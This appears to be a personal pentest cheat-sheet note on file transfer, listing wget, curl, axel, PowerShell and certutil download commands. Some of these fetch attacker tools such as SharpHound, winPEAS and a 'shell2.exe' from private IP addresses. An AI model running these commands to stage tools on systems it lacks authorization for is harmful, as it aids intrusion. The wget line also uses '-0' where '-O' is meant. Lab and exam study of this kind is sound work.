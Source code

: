 Downloading Files

Wget

> wget -0 &lt;url&gt; &lt;filename&gt;

Curl

> curl -o &lt;filename&gt; &lt;url&gt;

Axel

> axel -a -n 20 -o &lt;filename&gt; &lt;url&gt;

Powershell

> powershell -c (New-Object Net.WebClient).DownloadFile('http://192.168.119.222:8001/SharpHound.exe', 'SharpHound.exe')
> 
> powershell -nop -c "(New-Object System.Net.WebClient).DownloadFile('[http://192.168.119.160/shell2.exe','shell2.exe](http://192.168.119.160/shell2.exe%27,%27shell2.exe "http://192.168.119.160/shell2.exe','shell2.exe")')"

## CertUtil

> certutil.exe -urlcache -split -f "http://x.x.x.x/winPEASany.exe" winPEASany.exe
> 
> certutil -urlcache -split -f "http://x.x.x.x/winPEASany.exe" winPEASany.exe

id: 7fcb789b143c4fdead546ced081886f7
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-20T06:22:14.996Z
updated_time: 2022-08-07T14:31:18.042Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T06:22:14.996Z
user_updated_time: 2022-08-07T14:31:18.042Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1